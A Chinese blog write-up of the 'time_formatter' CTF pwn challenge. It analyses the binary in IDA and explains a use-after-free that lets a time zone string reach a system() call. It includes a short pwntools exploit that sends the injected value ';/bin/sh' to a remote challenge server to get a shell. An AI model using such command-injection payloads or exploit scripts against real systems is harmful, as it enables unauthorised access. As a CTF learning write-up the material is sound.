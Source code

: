 ```yaml
---
title: '攻防世界-time_formatter'
date: 2020-10-01 17:15:18
tags: 
 - PWN
 - CTF
categories: "PWN"
banner_img: /pic/time-cover.jpg
---
```

# 攻防世界-time_formatter

<!-- more -->

# checksec 

```shell
kali@kali:~/桌面/pwn/time_formatter$ checksec --file=time_formatter
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        Yes   3               4               time_formatter
kali@kali:~/桌面/pwn/time_formatter$ file time_formatter 
time_formatter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5afd38988c61546c0035e236ce938af6181e85a6, stripped
```

# IDA分析

程序有点绕，我们一步一步来分析，函数已经重命名。

{% asset_img time_formatter-ida1.png %}

read16()会读取你的选项，最多读取16字节，这里没有什么可以利用的地方。

{% asset_img time_formatter-ida2.png %}

进入setformat()函数，read0()会读取你输入的format，最大1024字节。虽然很大但是有canary保护，不能直接进行溢出。

{% asset_img time_formatter-ida4.png %}

{% asset_img time_formatter-ida5.png %}

```c
char * strdup(const char *s);
//strdup()会先用maolloc()配置与参数s 字符串相同的空间大小，然后将参数s 字符串的内容复制到该内存地址，然后把该地址返回。该地址最后可以利用free()来释放。
//返回一字符串指针，该指针指向复制后的新字符串地址。若返回NULL 表示内存不足。
```

这个相当于将我们输入的format放入了大小合适的malloc申请的堆空间中。最后返回这段空间的指针，这个指针最后被放入全局变量ptr中。

{% asset_img time_formatter-ida3.png %}

在checksec函数中，会对我们输入的format进行限制，只允许使用以上字符，

{% asset_img time_formatter-ida6.png %}

settime中同样使用read16()读取，并将time放入全局变量dword_602120中。

{% asset_img time_formatter-ida7.png %}

setzone也使用了read0()这就说明，zone也使用到了malloc，并且它并没有对输入的内容进行任何限制。

{% asset_img time_formatter-ida8.png %}

printtime中有system，而且command与我们之前的输入有关。我们能不能利用这个取得shell呢？

我们先看一下，最后一个选项：

{% asset_img time_formatter-ida9.png %}

可以看到，在没有真正退出之前它就free了format与zone申请的内存，这就是我需要利用的地方。

总结一下：

setformat：malloc一段空间，输入有限制

setzone：malloc一段空间，输入无限制

exit：过早free

printtime：执行system("/bin/date -d @%d+%s")，format为空就不执行。

知道这些，最开始的想法就是利用command。但是command中我们能控制得只有%d与%s，“/bin/date -d”要怎么办呢？

这里补充一下Linux shell的知识：

```shell
system("ls;/bin/sh;cat flag")
```

与下面的命令等价：

```shell
ls
/bin/sh
cat flag
```

系统会分别执行这三个命令。所以我们可以控制%s使其执行

```shell
system("/bin/date -d @%d;/bin/sh")
```

又因为在format输入有限制没有；这个字符，我们使用zone进行输入。

要想zone指向ptr这段空间，就要想办法把format的空间分配给zone。

正好exit函数过早进行free，根据堆的分配原理。free掉format后，调用zone，系统会从bin中把这段空间给zone。

# exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
#context.arch="amd64"

p=remote('220.249.52.133',36032)
#p=process('./time_formatter')

p.sendlineafter("> ",'1')
p.sendlineafter("Format: ",'a')
p.sendlineafter("> ",'5')
p.sendlineafter("Are you sure you want to exit (y/N)? ",'N')
p.sendlineafter("> ",'3')
p.sendlineafter("Time zone: ","';/bin/sh'")
p.sendlineafter("> ",'4')

p.interactive()
```

# flag

{% asset_img time_formatter-flag.png %}

# 总结

第一做堆相关的题目，确实比栈的绕一点。

这个题没有明显的malloc，而是通过字符串操作进行，所以这里补充一些相关知识：

```c
size_t strspn(const char *str1, const char *str2);
//功能：检索字符串 str1 中第一个不在字符串 str2 中出现的字符下标
//返回 str1 中第一个不在字符串 str2 中出现的字符下标。
```

```c
char * strdup(const char *s);
//功能：先用maolloc()配置与参数s 字符串相同的空间大小，然后将参数s 字符串的内容复制到该内存地址，然后把该地址返回。
//该地址最后可以利用free()来释放。
//返回一字符串指针，该指针指向复制后的新字符串地址。若返回NULL 表示内存不足。
```

```c
size_t strcspn(const char *str1, const char *str2);
//功能：检索字符串 str1 开头连续有几个字符都不含字符串 str2 中的字符。
//该函数返回 str1 开头连续都不含字符串 str2 中字符的字符数。
```

还有一些与环境变量相关的函数，似乎与题目关系不太大：

```c
char *getenv(const char *name);
//功能：搜索 name 所指向的环境字符串，并返回相关的值给字符串。
```

```c
int setenv(const char *name,const char * value,int overwrite);
//用来改变或增加环境变量的内容。参数name为环境变量名称字符串。参数 value则为变量内容，参数overwrite用来决定是否要改变已存在的环境变量。
//如果没有此环境变量则无论overwrite为何值均添加此环境变量。
//若环境变量存在，当overwrite不为0时，原内容会被改为参数value所指的变量内容；
//当overwrite为0时，则参数value会被忽略。
//返回值 执行成功则返回0，有错误发生时返回-1。
```